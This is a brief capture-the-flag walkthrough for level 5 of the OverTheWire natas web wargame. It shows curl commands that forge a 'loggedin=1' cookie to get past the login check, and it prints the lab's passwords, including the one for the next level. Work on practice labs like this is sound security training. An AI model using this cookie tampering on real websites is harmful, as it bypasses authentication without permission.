 # natas level5
natas is CTF with web application.

## using credential is below.
- User:natas5
- Pass:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

check web site by lynx.
`lynx http://natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq@natas5.natas.labs.overthewire.org`

followings is message of this page.
~~~
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
~~~

And I check request and response header, set-cookie has "loggedin=0".
~~~
curl http://natas5.natas.labs.overthewire.org -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --verbose
[response has following]
Set-Cookie: loggedin=0
~~~

I modified this header and request to same url, I got password.
`curl http://natas5.natas.labs.overthewire.org -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq -b "loggedin=1" --verbose`

natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1



